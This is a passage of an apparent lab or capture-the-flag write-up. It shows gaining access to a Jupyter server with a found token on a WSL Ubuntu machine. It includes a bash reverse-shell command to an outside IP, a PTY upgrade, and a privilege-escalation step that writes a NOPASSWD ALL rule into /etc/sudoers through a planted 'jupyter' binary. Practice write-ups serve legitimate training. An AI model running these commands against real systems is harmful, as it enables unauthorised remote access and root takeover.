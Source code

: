     ```bash
    searchsploit Tornado
    ```
    
    **No result.**
    
- robots.txt and sitemap.xml
- Methods - GET,POST

I used found jupyter-token in login page and logged in.

## Exploitation

Under new I have found terminal and it opened a terminal.

![image.png](image%206.png)

Another way of getting a shell from Jupyter is described [here](https://exploit-notes.hdks.org/exploit/machine-learning/jupyter-notebook-pentesting/#remote-code-execution-(rce))

![image.png](image%207.png)

Let’s get a reverse shell on our machine.

![image.png](image%208.png)

**Datasci-share** is right under home directory, we can upload reverse shell and execute it from terminal.

The system is Ubuntu 20.04.4 that with high chance means that we are inside of a WSL, let’s get a reverse shell using bash.

```bash
bash -c 'bash -i >& /dev/tcp/10.23.93.200/135 0>&1'
```

Upgrade shell:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### 1st way

![image.png](image%209.png)

I found `.config` directory, and there I found another directory called `wslu` which most probably means **Windows Subsystem Linux Ubuntu.**

Checking `sudo -l` we see:

![image.png](image%2010.png)

Checking `/home/dev-datasci/.local/bin/` we don’t find jupyter binary so let’s create one and execute.

```bash
echo 'echo "dev-datasci ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > /home/dev-datasci/.local/bin/jupyter
```
